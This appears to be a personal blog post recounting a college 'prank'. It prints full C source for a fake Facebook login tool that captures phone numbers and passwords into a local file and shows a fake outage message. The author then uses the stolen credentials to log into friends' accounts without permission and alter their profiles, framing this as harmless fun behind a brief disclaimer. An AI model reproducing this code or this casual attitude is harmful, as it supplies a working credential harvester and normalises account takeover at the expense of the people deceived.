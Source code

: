 +++
title = 'C-razy Facebook Hack: How I Pranked My Friend'
date = 2024-08-18T09:45:17.1717+05:30
draft = false
tags =[]
+++ 


It was my first year of college, and we were all working in the Python lab. My friends, who didn’t really know much about computers, seemed like the perfect targets for a harmless prank. They were excited but didn’t have a clue about the technical stuff I was up to. I saw an opportunity to have a little fun, knowing they’d fall for it because they didn’t know much about programming.

### The Master Plan

I wanted to play a trick on my friends to show them how powerful C programming is. But it was all just a joke! Here’s how I did it:

**Creating the Fake Program**: I wrote a simple C program that looked like a Facebook login tool. But it was just a trick. The program would ask for their Facebook username and password, and then say “Facebook is down”!

**Playing the Prank**: I ran the program in front of my friends, and they typed in their phone numbers and passwords. I acted like I was trying to fix the problem, but I was really trying not to laugh.

**The Big Reveal**: After my friends left, I opened the file where I had saved their login information. I used it to log into their Facebook accounts and change their profile pictures to something really embarrassing and funny. Even I couldn’t help but laugh!”

### The Program

Here’s the mischievous code I used for the prank. **Disclaimer: This is for entertainment purposes only!**

```c
#include <stdio.h>

int main() {
    char phoneNumber[50];
    char password[50];
    FILE *file;

    // Open the file to store credentials
    file = fopen("credentials.txt", "a");
    if (file == NULL) {
        printf("Error opening file!\n");
        return 1;
    }

    // Ask for user details
    printf("Welcome to the Facebook Login Tool!\n");
    printf("Please enter your phone number: ");
    fgets(phoneNumber, 50, stdin);
    printf("Please enter your password: ");
    fgets(password, 50, stdin);

    // Store the credentials in a file
    fprintf(file, "Phone Number: %s", phoneNumber);
    fprintf(file, "Password: %s", password);

    // Close the file
    fclose(file);

    // Display a fake error message
    printf("Unable to reach Facebook at the moment. Please try again later.\n");

    return 0;
}

```

### What Happened Next

The next day, my friends came to college and told me that their Facebook profiles had been changed to show them in silly costumes or funny pictures. They were shocked and little scared.

They told me that their accounts had been hacked. But after some fun and teasing, I finally told them the truth - that I was the one who had done it as a prank. We all had a good laugh together and the fun came to an end.

### The Lesson

Here's the important part: **don't do this at home**. While my prank was just for fun, playing with people's personal information is not okay. It's important to respect people's privacy and use your coding skills in a good way.

### The Main Point

If you want to play a prank, make sure it's harmless and makes everyone smile. Use your coding skills for good things and keep your pranks light-hearted. Remember, there's a line between being funny and being mean online.

Happy coding, and may your pranks be fun and harmless!
